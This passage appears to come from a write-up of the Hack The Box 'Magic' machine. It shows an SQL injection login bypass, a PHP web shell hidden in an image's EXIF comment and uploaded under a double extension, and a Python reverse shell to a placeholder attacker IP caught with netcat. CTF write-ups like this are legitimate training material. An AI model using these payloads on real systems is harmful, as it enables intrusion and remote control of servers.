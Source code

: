 ```
admin' or '1'='1'
password
```

And we have access to the upload page:

![upload]({{site.baseurl}}/assets/img/HackTheBox/Magic/upload.png)

## Upload exploitation

So it seems that it is checking for file extension so we can instead use the `exiftool` to add some php code to any image we download

```bash
exiftool -Comment='<?php system($_REQUEST['cmd']); ?>' test.png
```

Let's rename the image to `test.php.png` to be able to use it:

```bash
mv test.png test.php.png
```

and now upload the image to the site and let's try it out

```
http://10.10.10.185/images/uploads/test.php.png?cmd=ls
```

![lscmd]({{site.baseurl}}/assets/img/HackTheBox/Magic/lscmd.png)

In the big jumble mess, in the upper right corener we can see the result of `ls` so we know that it is working. Now let's execute a python reverse shell

```BASH
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[YOUR IP]",[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Pop that into the url and get a netcat shell

```bash
nc -lvnp 1234
listening on [any] 1234 ...
connect to [[YOUR IP]] from (UNKNOWN) [10.10.10.185] 59852

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/Magic/images/uploads$ 
```

We now have a shell in the website.

## Get the USER flag

We know that this website uses sql so there must be some db related files in there. After a little bit of research (not too long) I found `db.php5`:
